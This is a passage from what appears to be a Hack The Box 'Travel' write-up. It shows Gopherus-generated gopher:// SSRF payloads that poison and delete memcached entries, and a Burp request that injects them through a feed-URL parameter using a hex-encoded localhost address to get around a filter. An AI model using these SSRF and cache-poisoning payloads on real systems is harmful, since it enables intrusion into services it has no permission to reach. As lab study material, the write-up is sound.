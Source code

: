 ```bash
./gopherus.py --exploit phpmemcache
  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

This is usable when you know Class and Variable name used by user

Give serialization payload
example: O:5:"Hello":0:{}   : Test

Your gopher link is ready to do SSRF :

gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%204%0d%0aTest%0d%0a

After everything done, you can delete memcached item by using this payload:

gopher://127.0.0.1:11211/_%0d%0adelete%20SpyD3r%0d%0a

-----------Made-by-SpyD3r-----------
```



I copy the link generate by the tool to *Burp Intruder*, change the *127.0.0.1* to *0x7f00001* and try again:

```php
GET /awesome-rss/?custom_feed_url=gopher://0x7f000001:11211/_%0d%0aset%20SpyD3r%204%200%204%0d%0aTest%0d%0a HTTP/1.1
Host: blog.travel.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<img src="https://raw.githubusercontent.com/dumbx90/dumbx90.github.io/master/assets/img/commons/hackthebox/travel/poison-memcache.png" alt="poison-memcache" style="zoom:75%;" />
